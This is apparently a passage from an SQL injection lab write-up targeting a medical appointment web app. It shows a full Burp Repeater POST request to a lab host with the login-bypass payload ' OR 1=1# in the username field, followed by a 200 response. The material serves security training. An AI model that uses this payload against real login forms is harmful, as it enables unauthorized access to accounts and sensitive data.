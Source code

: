 **Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

![Lab - CiMe Citas Medicas 1](./assets/04_sql_injection_attacks_lab_cime_citas_medicas_1.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR 1=1#&password=TEST123📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html
Date: Tue, 10 Dec 2024 22:00:25 GMT
```